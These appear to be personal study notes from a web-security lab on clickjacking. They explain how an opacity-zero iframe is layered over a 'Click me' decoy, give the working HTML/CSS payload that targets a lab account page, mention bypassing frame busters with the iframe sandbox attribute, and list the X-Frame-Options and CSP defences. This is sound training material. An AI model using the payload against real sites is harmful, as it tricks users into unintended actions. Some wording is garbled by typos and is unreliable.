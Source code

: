 Click Jacking:

	Target website iframe is positioned within the browser so that there is a perscie overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, opacity value is defined as 0.0 so that the iframe content is transparent

"<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:relative;
       top: 600px;
       left: 60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://aca61f401fcdc06a80fe1e5300ba00df.web-security-academy.net/my-account"></iframe>"

modern browser use frame buster scripts to find invisble frames and other potentaial clickjacking, but most of it can be bypassed by using iframe sandbox feature, that allows scripts and forms with getting caught

X-Frame-options: deny or same-origin or site 

can tell the browser if it has to include iframes

content-security-policy can also be used as another layer of protection


